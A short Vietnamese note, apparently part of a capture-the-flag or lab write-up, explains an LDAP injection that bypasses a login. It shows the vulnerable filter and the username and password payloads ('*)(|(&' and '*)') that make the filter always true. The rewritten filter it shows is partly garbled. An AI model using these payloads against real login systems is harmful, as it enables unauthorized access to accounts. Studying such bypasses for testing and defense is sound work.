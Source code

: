 thử nhập vào một số kí tự nhạy cảm như (&) ta thu được query:
(&(uid=input)(userPassword=input))

nhập liệu để query trên luôn đúng:
username =*)(|(&
pass = *)
=>
(&(uid=*)(|(&)(userinput=[tùy ý..)]))

giải thích: uid = * => luôn đúng
                 (&) luôn đúng
